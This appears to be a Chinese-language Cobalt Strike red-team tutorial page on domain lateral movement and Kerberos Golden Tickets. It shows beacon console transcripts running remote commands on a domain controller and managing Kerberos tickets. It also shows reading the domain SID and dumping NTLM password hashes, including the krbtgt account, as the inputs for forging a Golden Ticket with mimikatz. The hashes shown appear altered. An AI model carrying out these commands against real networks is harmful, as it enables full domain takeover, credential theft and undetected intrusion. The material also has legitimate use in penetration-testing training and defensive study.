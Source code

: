 ```bash

beacon> powershell Invoke-Command -computer WinDC -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WinDC -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
Kerberos 票据 #
关于 Kerberos 的介绍可以查看知乎上的一篇文章，比较形象生动，文章地址： https://www.zhihu.com/question/22177404(opens new window)
```
查看有哪些 Kerberos 票据

shell klist
除去 kerberos 票据

kerberos_ticket_purge
加载 kerberos 票据

kerberos_ticket_use [/path/to/file.ticket]
黄金票据 #
黄金票据 Golden Ticket 是 KRBTGT 帐户的 Kerberos 身份验证令牌，KRBTGT 帐户是一个特殊的隐藏帐户，用于加密 DC 的所有身份验证令牌。然后黄金票据可以使用哈希传递技术登录到任何帐户，从而使攻击者可以在网络内部不受注意地移动。

使用 mimikatz 伪造黄金票据需要：

1、目标的用户名及域名

2、域的 SID 值

域的 SID 值即安全标识符 Security Identifiers，使用 whoami /user 命令可查看，注意不需要 SID 最后的一组数字。
```bash
beacon> shell whoami /user
[*] Tasked beacon to run: whoami /user
[+] host called home, sent: 43 bytes
[+] received output:

用户信息
----------------

用户名        SID                                         
============= ============================================
teamssix\daniel S-1-5-21-5311978431-183514165-284342044-1000
因为不需要 SID 最后一组数字，所以这里要使用的 SID 也就是 S-1-5-21-5311978431-183514165-284342044

3、DC 中 KRBTGT 用户的 NTLM 哈希

DC 中 KRBTGT 用户的 NTLM 哈希可以通过 dcsync 或 hashdump 获得，下面的 hashdump 命令在域控制器的 SYSTEM 权限会话下运行。

beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aca3b435b5z404eeaad3f435b51404he:z1f8417a00az34scwb0dc15x66z43bg1:::
daniel:1108:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
```
Cobalt Strike 在 Access -> Golden Ticket 中可以打开生成黄金票据的界面。
